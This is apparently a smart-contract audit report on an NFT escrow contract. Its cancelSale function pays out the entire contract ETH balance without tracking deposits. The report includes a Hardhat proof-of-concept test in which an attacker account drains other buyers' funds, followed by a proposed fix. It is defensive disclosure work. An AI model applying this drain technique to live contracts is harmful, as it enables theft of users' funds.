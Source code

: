 # Mishandling of ETH - Findings Report

## Contest Summary
Date: April 20th 2024

## Results Summary
- High: 1
- Medium: 0
- Low: 0

## Risk Findings
High-01. Unauthorized withdrawals

## Sumary
The cancelSale function allows unauthorized ETH withdrawals due to the absence of a mechanism to track who deposited funds, potentially leading to loss of funds.

## Vulnerability Details
The cancelSale and finalizeSale functions are critical to the sale process. The cancelSale function transfers the entire contract balance to either the buyer or seller based on inspection status, while the finalizeSale function completes the sale only if all approvals are met. However, the lack of tracking for deposited amounts leads to potential unauthorized withdrawals.

``` solidity
function cancelSale(uint256 _nftID) public {
        if (inspectionPassed[_nftID] == false) {
            payable(buyer[_nftID]).transfer(address(this).balance);
        } else {
            payable(seller).transfer(address(this).balance);
        }
    }

function finalizeSale(uint256 _nftID) public {
        require(inspectionPassed[_nftID]);
        require(approval[_nftID][buyer[_nftID]]);
        require(approval[_nftID][seller]);
        require(approval[_nftID][lender]);
        require(address(this).balance >= purchasePrice[_nftID]);
        isListed[_nftID] = false;
        (bool success, ) = payable(seller).call{value: address(this).balance}(
            ""
        );
        require(success);
        IERC721(nftAddress).transferFrom(address(this), buyer[_nftID], _nftID);
    }
```
## Impact
 - Scenario 1: Buyer 1 deposited 1 ETH for NFT 1, while Buyer 2 did not deposit for NFT 2. 
 - Scenario 2: Buyer 2 exploited a vulnerability to cancel the sale, risking theft from Buyer 1.

 ## POC
 ```solidity

  describe("ETH Mishandling in Cancel Sale", () => {
        describe("Failure", async () => {
            it("Check for deposit earnest", async () => {
                const nftId_1 = 1
                const nftId_2 = 2
                // Deposit for NFT 1
                const depositTx = await escrow.connect(buyer).depositEarnest(1, {
                    value: tokens(5)
                })
                await depositTx.wait()
                // Escrow balance before
                const escrowBalanceBefore = await escrow.getBalance()
                // Hacker balance before
                const hackerBalanceBefore = await hre.ethers.provider.getBalance(hacker.address)
                // Inspector passes inspection for NFT 1
                const inspectionTx1 = await escrow.connect(inspector).updateInspectionStatus(1, true)
                await inspectionTx1.wait()
                // Approve sale by buyer, seller and lender for NFT 1
                const approveTx1 = await escrow.connect(buyer).approveSale(1)
                await approveTx1.wait()
                const approveTx2 = await escrow.connect(seller).approveSale(1)
                await approveTx2.wait()
                const approveTx3 = await escrow.connect(lender).approveSale(1)
                await approveTx3.wait()
                // Lender send ETH to the contract for NFT 1
                const inspectionTx2 = await lender.sendTransaction({
                    to: escrow.address,
                    value: tokens(5)
                })
                // Mint NFT 2
                const mintTx2 = await realEstate.connect(seller).mint("https://ipfs.io/ipfs/QmTudSYeM7mz3PkYEWXWqPjomRPHogcMFSq7XAvsvsgAPS")
                await mintTx2.wait()
                // Approve NFT 2 for Escrow
                const approveTx = await realEstate.connect(seller).approve(escrow.address, 2);
                await approveTx.wait()
                // List NFT 2
                const listTransaction2 = await escrow.connect(seller).list(2, hacker.address, tokens(15), tokens(10))
                await listTransaction2.wait()
                // Hacker cancel sale for NFT 2
                const cancelTx = await escrow.connect(hacker).cancelSale(2);
                await cancelTx.wait()
                // Check Escrow balance after cancel sale   
                const escrowBalanceAfter = await escrow.getBalance()
                expect(escrowBalanceAfter).to.equal(0)
                // Hacker balance after
                const hackerBalanceAfter = await hre.ethers.provider.getBalance(hacker.address)
                expect(hackerBalanceAfter).to.be.greaterThan(hackerBalanceBefore)
                // Finalize sale for NFT 1
                await expect(escrow.connect(seller).finalizeSale(1)).to.be.revertedWith("Escrow: Insufficient balance")
            })
        })
 ```

 ## Tools Used
 Sublime, Hardhat

## Recomandations
Add a new mapping: 
- mapping(`address` => `uint256`) public `deposited`

```solidity
function finalizeSale(uint256 _nftID) public {
        uint256 escrowAmount = escrowAmount[_nftID];
        address buyerAddress = buyer[_nftID];
        uint256 depositedAmount = deposited[buyerAddress];
        
        // Ensure buyer has enough funds deposited
        require(deposited[buyerAddress] >= escrowAmount, "Escrow: Insufficient deposited funds");

        // NFT passed inspection
        require(inspectionPassed[_nftID], "Escrow: NFT inspection not passed");

        // Buyer approval required
        require(approval[_nftID][buyer[_nftID]], "Escrow: Buyer not approved");

        // Seller approval required
        require(approval[_nftID][seller], "Escrow: Seller not approved");

        // Lender approval required
        require(approval[_nftID][lender], "Escrow: Lender not approved");

        // Contract balance insufficient for purchase
        require(address(this).balance >= escrowAmount, "Escrow: Insufficient balance");

        // Transfer funds to the seller
        isListed[_nftID] = false;
          (bool success, ) = payable(seller).call{value: address(this).balance}(
            ""
        );
        require(success);

          // Reset deposited amount
        deposited[buyerAddress] = 0;

        // Transfer the NFT ownership to the buyer
        IERC721(nftAddress).transferFrom(address(this), buyerAddress, _nftID);
    }

function cancelSale(address _buyer, uint256 _nftID) public {    
        uint256 refundAmount = deposited[_buyer];
        require(refundAmount > 0, "Escrow: No deposited amount to finalize the sale");
        deposited[_buyer] = 0;

        if (inspectionPassed[_nftID] == false) {
            payable(buyer[_nftID]).transfer(refundAmount);
        } else {
            payable(seller).transfer(refundAmount);
        }
    } 
```